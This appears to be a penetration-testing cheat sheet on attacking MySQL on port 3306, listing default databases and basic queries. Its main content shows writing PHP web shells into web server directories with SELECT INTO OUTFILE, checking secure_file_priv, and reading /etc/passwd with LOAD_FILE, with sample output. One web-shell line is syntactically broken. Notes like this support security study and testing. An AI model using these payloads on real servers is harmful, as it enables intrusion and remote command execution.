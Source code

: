 ```yaml
---
title: Port 3306 - MySQL
draft: false
tags:
  - mysql
---
```

What are the default databases?

`mysql`: System database. Contains tables informaiton. 

`information_schema`: Provides access to the DB metadata.

`performace_schema`: Monitors MySQL Server execution.

`sys`: Helps DBA and developers with interpreting data collected from performance schema.

## Syntax

Show database:

`SHOW DATABASES`

Select Database:

`USE users;`

Show tables:

`SHOW TABLES;`

Select all Data from table users:

`SELECT * FROM users;`

## CME

MySQL doesn't have stored procedures such as xp_cmdshell. 

Attacker can still achieve CME by writing to a location in the file system that can execute the commands. 

Attacker can use [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory.

Then we can browse to the location where the file is and execute the command. 

### Write Local File

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

```shell-session
mysql> SELECT "<?php system($_GET['cmd'];?)>" INTO OUTFILE 'C:\xampp\htdocs\shell.php';

Query OK, 1 row affected (0.001 sec)
```

```

`secure_file_priv` limits the effect of the data import and export operations such as `LOAD DATA` AND `SELECT ,,, INTO OUTFILE`.

`secure_file_priv` may be set as follows:

- If **empty**, the variable has no effect, which is not a secure setting.
- If **set to the name of a directory**, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to **NULL**, the server disables import and export operations.

Let's check on `secure_file_priv`:

```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

It is set as empty. We should be able to write commands to a file. 

## Read Local Files


MSSQL by default, user with read access can read any files on the Operating System. 

But MySQL doesn't allow arbitrary file read by default. 

But we can still read files if lucky using the following method:

```shell-session
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```


